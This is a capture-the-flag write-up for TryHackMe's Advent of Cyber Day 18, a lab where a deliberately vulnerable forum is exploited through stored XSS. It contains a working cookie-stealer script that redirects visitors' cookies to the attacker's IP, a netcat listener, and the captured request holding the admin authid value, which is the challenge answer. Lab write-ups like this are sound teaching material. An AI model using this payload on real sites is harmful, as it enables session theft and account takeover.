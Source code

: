 ```yaml
---
title: "Advent of Cyber Day 18 ELF JS"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 18 ELF JS"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown
them that this forum belongs to the Christmas Monster. Can they gain
access to the admin section of the forum? They haven't made an account
yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - **it may take a few minutes to deploy.**

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.

### Setup

First let's try all the form post to see if there is an XSS attack

![https://imgur.com/QYpc4e3.png](https://imgur.com/QYpc4e3.png)

As you can see the website is vulnerable to stored XSS

Now let's implement cookie stealer.

Reference →

[How to Write an XSS Cookie Stealer in JavaScript to Steal Passwords](https://null-byte.wonderhowto.com/how-to/write-xss-cookie-stealer-javascript-steal-passwords-0180833/)

```bash
<script>window.location = 'http://10.9.45.74:9999/page?param=' + document.cookie </script>
```

### Now let's wait for the admin's token

```bash
nc -lnvp 9999
```

### #1 What is the admin's authid cookie value?

```bash
kali@kali:~$ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.9.45.74] from (UNKNOWN) [10.10.125.201] 55668
GET /page?param=authid="2564799a4e6689972f6d9e1c7b406f87065cbf65" HTTP/1.1
Host: 10.9.45.74
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```
